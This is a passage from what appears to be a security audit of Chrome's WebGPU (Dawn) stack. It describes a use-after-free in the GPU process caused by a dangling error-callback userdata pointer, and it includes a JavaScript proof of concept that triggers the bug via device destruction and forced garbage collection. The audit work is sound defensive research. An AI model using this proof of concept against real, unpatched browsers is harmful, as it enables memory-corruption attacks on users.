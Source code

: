 After that the attacker can clear all references to the `WGPUDevice`, freeing
the userdata leading to a dangling pointer. On the next `wgpuTick`, if an error
callback is invoked it will lead to `mUncapturedErrorUserdata` being
dereferenced, causing a use-after-free (UAF).

This leads to the proof of concept below that uses the trick we mentioned
earlier where Garbage Collected objects created from JavaScript in the renderer
process can be used to drop a single reference to a Dawn Wire Server object in
the GPU process, opening the door for the use-after-free.

```js
async function trigger() {
    let adapter1 = await self.navigator.gpu.requestAdapter({
        forceFallbackAdapter: true
    });
    let device1 = await adapter1.requestDevice();

    // Request a second device.
    let adapter2 = await self.navigator.gpu.requestAdapter({
        forceFallbackAdapter: true
    });

    let buffer1 = device1.createBuffer(
        { mappedAtCreation: false,
          size: 128, usage:
          GPUBufferUsage.UNIFORM });

    // Set Device::mState to State::kDestroyed.
    device1.destroy();

    // Trigger an error by unmapping a buffer on a destroyed device,
    // which queues up an error callback
    buffer1.unmap();

    // Trigger GC to drop the renderer's reference to device, and free it
    buffer1 = null;
    adapter1 = null;
    device1 = null;
    try { new ArrayBuffer(31 * 1024 * 1024 * 1024); } catch(e) {}

    // Flush. Trigger UAF.
    await adapter2.requestDevice();
}
```

### Finding: Multiple vulnerabilities in WebGPU use of GPU Command Buffer

> _**Our Concerns - The Short Version**_
>
>The Chrome Command Buffer is prone to input validation issues, has many legacy
>undocumented footguns, and is difficult to fuzz effectively. Manual auditing is
>currently the best way to discover bugs in this area of the codebase. Snapshot
>fuzzing could help solve this problem.
